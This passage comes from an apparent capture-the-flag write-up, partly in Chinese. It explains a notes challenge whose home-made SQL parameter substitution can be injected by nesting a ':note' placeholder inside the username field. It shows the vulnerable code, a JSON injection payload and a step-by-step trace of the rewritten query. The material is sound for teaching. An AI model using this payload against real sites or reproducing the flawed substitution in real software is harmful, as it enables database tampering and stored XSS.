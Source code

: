 But there is a detail here. If you use Markdown XSS, the regexp that is finally matched is not the password, so you can't get it. At this point, you must find the server's SQL injection. The code is as follows:

``` js
const db = {
  prepare: (query, params) => {
    if (params)
      for (const [key, value] of Object.entries(params)) {
        const clean = value.replace(/['$]/g, '');
        query = query.replaceAll(`:${key}`, `'${clean}'`);
      }
    return query;
  },
  get: (query, params) => {
    const prepared = db.prepare(query, params);
    try {
      return database.prepare(prepared).get();
    } catch {}
  },
  run: (query, params) => {
    const prepared = db.prepare(query, params);
    try {
      return database.prepare(prepared).run();
    } catch {}
  },
};

const id = crypto.randomBytes(16).toString('hex');
db.run('INSERT INTO notes VALUES (:id, :username, :note, :mode, 0)', {
  id,
  username,
  note: note.replace(/[<>]/g, ''),
  mode,
});
```

It removes all single quotes and $, and then replaces all `:param`. You can use this feature to inject, for example (from DrBrix):

```
"username": "a :note",
"password": "pass"
"note": ", :mode, 0, 0) -- ",
"mode": "actual note and xss"
```

Let's see what it looks like in the end:

``` sql
// 一開始是
INSERT INTO notes VALUES (:id, :username, :note, :mode, 0)

// 接著假設 id 是 123，就會變成
INSERT INTO notes VALUES ('123' :username, :note, :mode, 0)

// 再來 replace username，變成
INSERT INTO notes VALUES ('123', 'a :note', :note, :mode, 0)

// 再來是 note，要注意的是兩個 note 都會被 replace
INSERT INTO notes VALUES ('123', 'a ', :mode, 0, 0) -- '', ', :mode, 0, 0) -- ', :mode, 0)

// 最後是 mode，這時候我們已經可以控制 note 內容的值了，沒有任何限制
INSERT INTO notes VALUES ('123', 'a ', 'payload', 0, 0) -- '', ', 'payload', 0, 0) -- ', :mode, 0)
```
